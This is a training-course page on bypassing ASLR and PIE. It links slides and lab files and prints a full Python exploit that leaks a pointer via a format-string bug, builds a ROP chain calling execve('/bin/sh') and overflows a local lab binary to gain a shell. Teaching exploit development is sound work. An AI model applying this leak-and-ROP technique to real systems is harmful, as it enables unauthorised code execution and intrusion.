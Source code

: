===========================
Day 2 - 4 ASLR PIE Bypasses
===========================

Below is the PowerPoint on ASLR PIE Bypasses for this section.

:download:`ASLR PIE Bypasses PowerPoint<media/day2/aslr_pie_bypasses.pptx>`

Activities
----------

Below is the PowerPoint for the activities for this section, as well
as some of the files that go along with it.

:download:`Bypassing ASLR via Memory Read PowerPoint<media/day2/bypassing_aslr_via_memory_read.pptx>` 

:download:`dof NX PIE zip<media/day2/bof_nx_pie.zip>`

::

    #exploit.py
    #!/usr/bin/python2

    # Exploit for /usr/local/bin/bof_nx_pie
    # Uses ROP to defeat NX
    # Uses format string to leak pointer, to defeat PIE


    import subprocess, struct, sys


    # Open the process and setup stdin/stdout pipes
    p = subprocess.Popen(
            ["/usr/local/bin/bof_nx_pie"],
            stdin = subprocess.PIPE,
            stdout = subprocess.PIPE
    )


    # Abuse the format string vulnerability to leak a pointer
    # "%3$" says "the third argument on the stack"
    # "08x" says "formated as a hexidecimal number, 0-padded to 8 places
    p.stdin.write("%3$08x\n")
    leak_addr = p.stdout.readline()


    # Convert it from hex, subtract 0x6ec to get the PIE base address
    base_addr = int(leak_addr, 16) - 0x6ec
    print "Found base address: %08x" % base_addr


    # Dynamically calculated ROP chain
    # Performs execve("/bin/sh", 0, 0);
    # "<L" means "little-endian 4-byte unsigned integer"
    rop_chain = struct.pack("<L", base_addr + 0x885)                # pop eax; ret;
    rop_chain += struct.pack("<L", 0x0000000b)                              # SYS_execve
    rop_chain += struct.pack("<L", base_addr + 0x4e1)               # pop ebx; ret;
    rop_chain += struct.pack("<L", base_addr + 0x202c)              # * -> "/bin/sh"
    rop_chain += struct.pack("<L", base_addr + 0x8ab)               # xor ecx, ecx; ret;
    rop_chain += struct.pack("<L", base_addr + 0x8ae)               # xor edx, edx; ret;
    rop_chain += struct.pack("<L", base_addr + 0x7a0)               # int 0x80; ret


    # Build full overflow string
    fill_buffer = "AAAAAAAAAAAAAAAA"
    gcc_padding = "BBBBBBBB"
    saved_ebp = "CCCC"
    overflow = fill_buffer + gcc_padding + saved_ebp + rop_chain


    # Do it!
    p.stdin.write(overflow + "\n")
    print p.stdout.readline(),


    # We should now have an interactive shell!
    while True:
            print "$ ",
            p.stdin.write(sys.stdin.readline())
            print p.stdout.readline(),

